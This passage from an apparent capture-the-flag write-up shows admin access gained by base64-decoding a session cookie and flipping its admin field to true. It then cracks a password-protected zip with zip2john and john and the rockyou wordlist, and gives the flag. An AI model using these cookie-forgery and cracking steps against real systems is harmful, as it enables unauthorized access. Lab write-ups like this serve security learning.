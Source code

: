 We are then able to log in with the credentials  : **username=access&password=computer**  

Once logged in, we get a session cookie :  ```eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=```
By decoding it, we can see that it is a user whose role is not admin : 
```
echo 'eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=' | base64 -d  

{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

I just have to change **false** to **true** and encode the new cookie :   

```
echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64

eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```

We get admin access to the application :  

![cf_array](./images/5-admin-access.png) 

I finally retrieve the .zip file but this one is protected by a password, so I used the following commands to break the password : 

```
zip2john  my_secure_files_not_for_you.zip > hash.txt

john --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

Password : **hahahaha**

Inside flag.txt => **FLAG : flag{2e6f9bf8-fdbd-483b-8c18-bdf371b2b004}**  
